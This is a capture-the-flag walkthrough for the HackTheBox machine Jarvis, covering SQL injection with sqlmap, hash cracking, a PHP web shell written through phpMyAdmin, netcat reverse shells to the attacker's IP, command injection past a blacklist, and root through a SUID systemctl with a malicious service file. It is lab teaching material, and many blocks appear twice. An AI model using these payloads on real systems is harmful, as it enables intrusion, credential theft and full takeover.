

hackthebox Jarvis
Released: 22nd June 2019 / Pwned: June 27th 2019 - [+] Solved whilst ActiveJarvis, whilst being a "medium" difficulty box, was fairly straight forward for me. The vulns were all classics. I think this was my first hackthebox machine where everything was smooth sailing. Rejoice!
Summary
• Find/phpmyadmin using gobuster• Find a sql injectable URL by manually browsing the site -
/room.php?cod=1• Use sqlmap to retrieve and crack credentials
• Use credentials to access
/phpmyadmin and get a reverse shell• Escalate from
www-data to pepper using sudo permissions and a script vulnerable to command injection• Configure ssh access to
pepper for a more reliable shell• Escalate to root by exploiting a suid binary and writing our own (malicious) service in
/home/pepper1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.143-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/jarvis# mkdir nmap
root@gotham:~/ctf/jarvis# nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.143
...
Host is up (0.039s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
| 2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
| 256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_ 256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open http Apache httpd 2.4.25 ((Debian))
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
...
root@gotham:~/ctf/jarvis# nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.143
...
Host is up (0.039s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
| 2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
| 256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_ 256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open http Apache httpd 2.4.25 ((Debian))
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
...
A full port scan revealed 2 extra ports:
root@gotham:~/ctf/jarvis# nmap -p- -sV -T4 -oN nmap/full.txt 10.10.10.143
...
Host is up (0.059s latency).
Not shown: 65531 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open http Apache httpd 2.4.25 ((Debian))
5355/tcp filtered llmnr
64999/tcp open http Apache httpd 2.4.25 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
...
Host is up (0.059s latency).
Not shown: 65531 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open http Apache httpd 2.4.25 ((Debian))
5355/tcp filtered llmnr
64999/tcp open http Apache httpd 2.4.25 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
Services running:
• 22/ssh - nothing to do here
• 80/http - looks like a website for a hotel
• 5355/llmnr - llmnr stands for Link-Local Multicast Name Resolution. There's nothing to do here either.
• 6499/http - another website (which is just a rabbit hole, I think)
Ports & Services
2) 80/http - Stark Hotel
http://10.10.10.143/It's a website for a hotel. A “super secure" one at that.
2a) Gobuster
gobuster finds the phpmyadmin directory for us.
root@gotham:~/ctf/jarvis/80-http# gobuster -e -u http://10.10.10.143/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -o gb-common.txt
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.143/
[+] Threads : 10
[+] Wordlist : /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Expanded : true
[+] Timeout : 10s
=====================================================
2019/06/27 10:08:10 Starting gobuster
=====================================================
http://10.10.10.143/.hta (Status: 403)
http://10.10.10.143/.htpasswd (Status: 403)
http://10.10.10.143/.htaccess (Status: 403)
http://10.10.10.143/css (Status: 301)
http://10.10.10.143/fonts (Status: 301)
http://10.10.10.143/images (Status: 301)
http://10.10.10.143/index.php (Status: 200)
http://10.10.10.143/js (Status: 301)
http://10.10.10.143/phpmyadmin (Status: 301)
http://10.10.10.143/server-status (Status: 403)
=====================================================
2019/06/27 10:08:35 Finished
=====================================================
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.143/
[+] Threads : 10
[+] Wordlist : /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Expanded : true
[+] Timeout : 10s
=====================================================
2019/06/27 10:08:10 Starting gobuster
=====================================================
http://10.10.10.143/.hta (Status: 403)
http://10.10.10.143/.htpasswd (Status: 403)
http://10.10.10.143/.htaccess (Status: 403)
http://10.10.10.143/css (Status: 301)
http://10.10.10.143/fonts (Status: 301)
http://10.10.10.143/images (Status: 301)
http://10.10.10.143/index.php (Status: 200)
http://10.10.10.143/js (Status: 301)
http://10.10.10.143/phpmyadmin (Status: 301)
http://10.10.10.143/server-status (Status: 403)
=====================================================
2019/06/27 10:08:35 Finished
=====================================================
2b) /room.php?cod=1
Manually browsing the site, you should see some rooms being advertised -
http://10.10.14.11/rooms-suites.phpFollowing the link to an individual room, you'll find a suspicious looking url -
http://10.10.10.143/room.php?cod=1Considering this URL -
http://10.10.10.143/room.php?cod=1 - was retrieving information about a room, as well as the fact that gobuster found a phpmyadmin page, I guessed that this cod=1 paremeter might be vulnerable to SQL injection.If you don't care about manually checking for SQL injection, skip to 2d).
2c) Test cod=1 for SQL injection manually
1) Test for SQL injection #1
http://10.10.10.143/room.php?cod=1-false should return a TRUE if it's vulnerable.i.e. we'll get our information.
It does.
2) Test for SQL injection #2
http://10.10.10.143/room.php?cod=1-true should return FALSE if it's vulnerable.i.e. we won't get our information.
It does! None of the databse information gets printed out.

3) Find number of columns
You can find the number of columns by using
order by and gradually increasing the number of columns.Once you reach an error, subtract 1 to find the numebr of columns.
In this instance, order by 7 acts normal -
http://10.10.10.143/room.php?cod=1 order by 1,2,3,4,5,6,7Order by 8 doesn't return any output -
http://10.10.10.143/room.php?cod=1 order by 1,2,3,4,5,6,7,8Now we know that there are 7 columns in the table.
I couldn't figure out how to get database information to print out to the screen, so I gave up on manual injection at this point and moved to
sqlmap.2d) sqlmap
Exploit the
cod=1 parameter using sqlmap and retrieve the databases.
root@gotham:~/ctf/jarvis/80-http# sqlmap -u http://10.10.10.143/room.php?cod=1 --dbs
...
available databases [5]:
[*] hotel
[*] information_schema
[*] jnmxv
[*] mysql
[*] performance_schema
...
...
available databases [5]:
[*] hotel
[*] information_schema
[*] jnmxv
[*] mysql
[*] performance_schema
...
mysql looks the most interesting. Have a look at mysql's tables.I've excluded the results because wall of text.
root@gotham:~/ctf/jarvis/80-http# sqlmap -u http://10.10.10.143/room.php?cod=1 -D mysql --tables
...
Database: mysql
[30 tables]
...
...
Database: mysql
[30 tables]
...
The interesting table from this list is
user.Have a look at
user's columns.I've again excluded the results because wall of text.
root@gotham:~/ctf/jarvis/80-http# sqlmap -u http://10.10.10.143/room.php?cod=1 -D mysql -T user --columns
...
Database: mysql
Table: user
[46 columns]
...
...
Database: mysql
Table: user
[46 columns]
...
The interesting colums are:
• User
• Password
Those 2 columns should give us a username and password. I used
sqlmap's dictionary cracking functionality to crack the MySQL hash it recovered using rockyou.txt
root@gotham:~/ctf/jarvis/80-http# sqlmap -u http://10.10.10.143/room.php?cod=1 -D mysql -T user -C User,Password --dump
...
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[11:22:57] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 2
what's the custom dictionary's location?
> /usr/share/wordlists/rockyou.txt
[11:23:10] [INFO] using custom dictionary
do you want to use common password suffixes? (slow!) [y/N] n
[11:23:12] [INFO] starting dictionary-based cracking (mysql_passwd)
[11:23:12] [INFO] starting 2 processes
[11:23:12] [INFO] cracked password 'imissyou' for hash '*2d2b7a5e4e637b8fba1d17f40318f277d29964d0'
Database: mysql
Table: user
[1 entry]
+---------+------------------------------------------------------+
| User | Password |
+---------+------------------------------------------------------+
| DBadmin | *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0 (imissyou) |
+---------+------------------------------------------------------+
...
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[11:22:57] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 2
what's the custom dictionary's location?
> /usr/share/wordlists/rockyou.txt
[11:23:10] [INFO] using custom dictionary
do you want to use common password suffixes? (slow!) [y/N] n
[11:23:12] [INFO] starting dictionary-based cracking (mysql_passwd)
[11:23:12] [INFO] starting 2 processes
[11:23:12] [INFO] cracked password 'imissyou' for hash '*2d2b7a5e4e637b8fba1d17f40318f277d29964d0'
Database: mysql
Table: user
[1 entry]
+---------+------------------------------------------------------+
| User | Password |
+---------+------------------------------------------------------+
| DBadmin | *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0 (imissyou) |
+---------+------------------------------------------------------+
We have credentials!
DBadmin / imissyouGain Access
3) /phpmyadmin
Log in to
http://10.10.10.143/phpmyadmin using the DBadmin credentials recovered via sql injection:DBadmin / imissyou
Using SQL's
into outfile statement and phpmyadmin's web interface, we can write a php file to the system and get ourselves a reverse shell.3a) Upload .php file
Pick a table to run SQL queries on.
I chose
jnmxv because it looked like a dummy table. You could pick any.Click the SQL tab so that we can run SQL commands.

This SQL statement
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell5000.php"will write a php file called
shell5000.php to the filesystem.Write your statement into the text box and click ‘Go’ to run the SQL query.

The query ran successfully :)

Now to run commands, visit:
http://10.10.10.143/shell5000.php?cmd=<command>For example, to run
id visit:http://10.10.10.143/shell5000.php?cmd=id
3b) Reverse shell
Get a reverse shell by a starting a listener on your attacking machine
root@gotham:~/ctf/jarvis# nc -lvnp 9001
listening on [any] 9001 ...
listening on [any] 9001 ...
And run
nc <attacker ip> <listening port> -e /bin/bash
You should receive a shell!
...
listening on [any] 9001 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.143] 44036
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@jarvis:/var/www/html$
listening on [any] 9001 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.143] 44036
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@jarvis:/var/www/html$
Priv-Esc
There's 2 stages of priv-esc you have to complete in order to get root on this machine.4) www-data to pepper
Check what sudo permissions
www-data has.This took me a bit to find since
www-data shouldn't normally have sudo permissions.
www-data@jarvis:/var/www/html$ sudo -l
Matching Defaults entries for www-data on jarvis:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User www-data may run the following commands on jarvis:
(pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
Matching Defaults entries for www-data on jarvis:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User www-data may run the following commands on jarvis:
(pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
We can run as user
pepper an 'admin utility' named simpler.py.Have a look.
www-data@jarvis:/var/www/html$ cat /var/www/Admin-Utilities/simpler.py
...
********************************************************
* Simpler - A simple simplifier ;) *
* Version 1.0 *
********************************************************
Usage: python3 simpler.py [options]
Options:
-h/--help : This help
-s : Statistics
-l : List the attackers IP
-p : ping an attacker IP
'''
....
...
********************************************************
* Simpler - A simple simplifier ;) *
* Version 1.0 *
********************************************************
Usage: python3 simpler.py [options]
Options:
-h/--help : This help
-s : Statistics
-l : List the attackers IP
-p : ping an attacker IP
'''
....
The help message shows the option of a ‘ping’ functionality.
This reeks of command injection.
If you investigate the script's
exec_ping() function you'll find the command injection vulnerability:• Line 127 -
os.system('ping ' + command)•
os.system() runs system commands•
command = input('Enter an IP: ') takes user input.• And
os.system('ping ' + command) appends our user input to the Linux ping command and runs it.However, the developer has written a blacklist:
forbidden = ['&', ';', '-', '`', '||', '|']If these characters are found in our input then the script will exit.
This is the developer trying to prevent command injection.
However, the developer has forgotten to blacklist 1 extra injection sequence -
$(<command>)Since this script is running as user
pepper, we can use our code injection to run commands as pepper and get an elevated shell.4a) Exploit simpler.py
Exploit
simpler.py's code injection vuln using $(<command>) to get a shell as pepper.
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
_ _
___(_)_ __ ___ _ __ | | ___ _ __ _ __ _ _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | | __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
|_| |_| |___/
@ironhackers.es
***********************************************
Enter an IP: $(/bin/bash)
$(/bin/bash)
pepper@jarvis:/var/www/html$ id
id
pepper@jarvis:/var/www/html$
***********************************************
_ _
___(_)_ __ ___ _ __ | | ___ _ __ _ __ _ _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | | __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
|_| |_| |___/
@ironhackers.es
***********************************************
Enter an IP: $(/bin/bash)
$(/bin/bash)
pepper@jarvis:/var/www/html$ id
id
pepper@jarvis:/var/www/html$
You'll notice that you don't get any output from commands.
No idea why. I solved this with a reverse shell.
Listen on your attacking machine:
root@gotham:~/ctf/jarvis# nc -lvnp 9002
listening on [any] 9002 ...
listening on [any] 9002 ...
Start a reverse shell using
nc.
pepper@jarvis:/var/www/html$ nc 10.10.14.11 9002 -e /bin/bash
nc 10.10.14.11 9002 -e /bin/bash
nc 10.10.14.11 9002 -e /bin/bash
And you should receive a fully functional shell as
pepper on your listener.
...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.143] 32912
id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
python -c 'import pty; pty.spawn("/bin/bash")'
pepper@jarvis:/var/www/html$
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.143] 32912
id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
python -c 'import pty; pty.spawn("/bin/bash")'
pepper@jarvis:/var/www/html$
At this point, I decided to configure ssh access to the box so that I could have a reliable connection and a fully-interactive shell.
5) Configure ssh access to pepper
Read your own public key from
~/.ssh/id_rsa.pub.
root@gotham:~/ctf/jarvis# cat ~/.ssh/id_rsa.pub
ssh-rsa AAAAB3Nz
...
ssh-rsa AAAAB3Nz
...
cd into pepper's ssh directory, create the authorized_keys file and copy your attacking machine's public key into pepper's authorized_keys file.
pepper@jarvis:~$ cd .ssh
pepper@jarvis:~/.ssh$ touch authorized_keys
pepper@jarvis:~/.ssh$ echo "ssh-rsa AAAAB3Nz..." >> authorized_keys
pepper@jarvis:~/.ssh$ touch authorized_keys
pepper@jarvis:~/.ssh$ echo "ssh-rsa AAAAB3Nz..." >> authorized_keys
Now you have ssh access to the box.
Grab
user.txt.
root@gotham:~/ctf/jarvis# ssh pepper@10.10.10.143
The authenticity of host '10.10.10.143 (10.10.10.143)' can't be established.
ECDSA key fingerprint is SHA256:oPoKu2vmqVfC1e3TJJ5ZB8yL/2/W2YIrglCm8FTTuSs.
Are you sure you want to continue connecting (yes/no)? yes
...
pepper@jarvis:~$ cat user.txt
2afa36...
The authenticity of host '10.10.10.143 (10.10.10.143)' can't be established.
ECDSA key fingerprint is SHA256:oPoKu2vmqVfC1e3TJJ5ZB8yL/2/W2YIrglCm8FTTuSs.
Are you sure you want to continue connecting (yes/no)? yes
...
pepper@jarvis:~$ cat user.txt
2afa36...
6) pepper to root
Have a look for any SUID (setuid) binaries on the system.
pepper@jarvis:~$ find / -perm -u=s -type f 2>/dev/null
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
systemctl is an odd result.systemctl is a command that starts systemd services.
pepper@jarvis:~$ ls -l /bin/systemctl
-rwsr-x--- 1 root pepper 174520 Feb 17 03:22 /bin/systemctl
-rwsr-x--- 1 root pepper 174520 Feb 17 03:22 /bin/systemctl
We can execute
systemctl too since its group owner, pepper, has execute permissions.We're currently logged in as
pepper, so we're part of the ‘pepper’ group.If we can create our own service and write it into
/etc/systemd/system where the systemd services are stored, we will have command execution as root.
pepper@jarvis:~$ touch /etc/systemd/system/test.txt
touch: cannot touch '/etc/systemd/system/test.txt': Permission denied
touch: cannot touch '/etc/systemd/system/test.txt': Permission denied
But we can't write to
/etc/systemd/system :/Have a look at the directory instead.
pepper@jarvis:~$ ls -l /etc/systemd/system
total 20
drwxr-xr-x 2 root root 4096 Mar 2 08:49 getty.target.wants
drwxr-xr-x 2 root root 4096 Jun 25 08:34 multi-user.target.wants
lrwxrwxrwx 1 root root 35 Mar 2 08:57 mysqld.service -> /lib/systemd/system/mariadb.service
lrwxrwxrwx 1 root root 35 Mar 2 08:57 mysql.service -> /lib/systemd/system/mariadb.service
drwxr-xr-x 2 root root 4096 Mar 2 08:49 network-online.target.wants
lrwxrwxrwx 1 root root 25 Jun 25 08:34 root.service -> /home/pepper/root.service
lrwxrwxrwx 1 root root 31 Mar 2 11:14 sshd.service -> /lib/systemd/system/ssh.service
drwxr-xr-x 2 root root 4096 Mar 2 08:49 sysinit.target.wants
lrwxrwxrwx 1 root root 35 Mar 2 08:49 syslog.service -> /lib/systemd/system/rsyslog.service
lrwxrwxrwx 1 root root 25 Jun 25 08:27 test.service -> /home/pepper/test.service
drwxr-xr-x 2 root root 4096 Mar 2 08:57 timers.target.wants
total 20
drwxr-xr-x 2 root root 4096 Mar 2 08:49 getty.target.wants
drwxr-xr-x 2 root root 4096 Jun 25 08:34 multi-user.target.wants
lrwxrwxrwx 1 root root 35 Mar 2 08:57 mysqld.service -> /lib/systemd/system/mariadb.service
lrwxrwxrwx 1 root root 35 Mar 2 08:57 mysql.service -> /lib/systemd/system/mariadb.service
drwxr-xr-x 2 root root 4096 Mar 2 08:49 network-online.target.wants
lrwxrwxrwx 1 root root 25 Jun 25 08:34 root.service -> /home/pepper/root.service
lrwxrwxrwx 1 root root 31 Mar 2 11:14 sshd.service -> /lib/systemd/system/ssh.service
drwxr-xr-x 2 root root 4096 Mar 2 08:49 sysinit.target.wants
lrwxrwxrwx 1 root root 35 Mar 2 08:49 syslog.service -> /lib/systemd/system/rsyslog.service
lrwxrwxrwx 1 root root 25 Jun 25 08:27 test.service -> /home/pepper/test.service
drwxr-xr-x 2 root root 4096 Mar 2 08:57 timers.target.wants
You'll see 2 files which have symlinks to files in
pepper's home directory:•
lrwxrwxrwx 1 root root 25 Jun 25 08:34 root.service -> /home/pepper/root.service•
lrwxrwxrwx 1 root root 25 Jun 25 08:27 test.service -> /home/pepper/test.serviceThis means we can create a
root.service service file in pepper's home directory and, because there's a symlink pointing to our maliciously created /home/pepper/root.service in /etc/systemd/system, we can get command execution as root.cd to /home/pepper and write your malicious service.I wrote a reverse shell.
pepper@jarvis:~$ cd /home/pepper
pepper@jarvis:~$ nano root.service
[Unit]
Description=shellpls systemd service
[Service]
Type=simple
ExecStart=/bin/sh -c "nc 10.10.14.11 9003 -e /bin/bash"
[Install]
WantedBy=multi-user.target
pepper@jarvis:~$ nano root.service
[Unit]
Description=shellpls systemd service
[Service]
Type=simple
ExecStart=/bin/sh -c "nc 10.10.14.11 9003 -e /bin/bash"
[Install]
WantedBy=multi-user.target
Prep a listener on your attacking machine to receive the shell
root@gotham:~/ctf/jarvis# nc -lvnp 9003
listening on [any] 9003 ...
listening on [any] 9003 ...
and run your malicious
root.service service using systemctl.
pepper@jarvis:~$ systemctl start root.service
Warning: root.service changed on disk. Run 'systemctl daemon-reload' to reload units.
pepper@jarvis:~$ systemctl daemon-reload
pepper@jarvis:~$ systemctl start root.service
pepper@jarvis:~$
Warning: root.service changed on disk. Run 'systemctl daemon-reload' to reload units.
pepper@jarvis:~$ systemctl daemon-reload
pepper@jarvis:~$ systemctl start root.service
pepper@jarvis:~$
You've served yourself a root shell!
Grab
root.txt.
...
listening on [any] 9003 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.143] 41886
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
d41d8...
listening on [any] 9003 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.143] 41886
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
d41d8...